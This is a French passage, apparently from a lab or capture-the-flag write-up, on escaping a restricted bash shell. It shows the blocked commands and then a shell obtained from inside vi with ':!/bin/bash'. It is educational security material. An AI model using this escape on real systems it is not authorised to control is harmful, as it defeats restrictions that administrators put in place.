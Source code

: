 ## Évasion d'un shell restreint et variable d'environnement PATH

Manque de chance, il s'agit d'un [shell restreint](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html) (_restricted shell_). Contrairement aux shells habituels, plusieurs restrictions sont mises en place ; citons par exemple l'interdiction de changer de répertoire courant avec la commande ```cd```, l'interdiction de modifier les variables d'environnement ```SHELL```, ```PATH```, ```ENV``` et ```BASH_ENV``` ou encore l'interdiction d'appeler des commandes contenant ```/``` la barre oblique.

```console
guest@porteus:~$ cd /etc
-rbash: cd: restricted

guest@porteus:~$ ls -al
-rbash: /bin/ls: restricted: cannot specify '/' in command names

guest@porteus:~$ sudo
-rbash: sudo: command not found

guest@porteus:~$ /usr/bin/sudo -l
-rbash: /usr/bin/sudo: restricted: cannot specify '/' in command names

guest@porteus:~$ w; whoami; id; uname;
-rbash: w: command not found
-rbash: whoami: command not found
-rbash: id: command not found
-rbash: uname: command not found
```

L'article [_Escaping Restricted Linux Shells_](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells) posté sur le site du SANS Institute par Doug Stilwell donne une astuce très précieuse : il est possible d'obtenir un shell à partir d'un éditeur de texte tel que ```vi``` ou ```vim```. Ça tombe bien, vi est l'un des seuls binaires que l'on peut appeler sur notre shell restreint. Une fois à l'intérieur de l'éditeur, la commande ```:!/bin/bash``` nous permet d'obtenir un shell digne de ce nom !

```console
guest@porteus:~$ vi

--snip--

:!/bin/bash

--snip--

~

bash: grep: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found

guest@porteus:~$ ls
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/  prog/

guest@porteus:~$ cd prog

guest@porteus:~/prog$ ls -al
total 8
drwxr-xr-x  2 guest users 4096 Aug  6 11:00 ./
drwxr-xr-x 18 guest users 4096 Nov  4 11:30 ../
```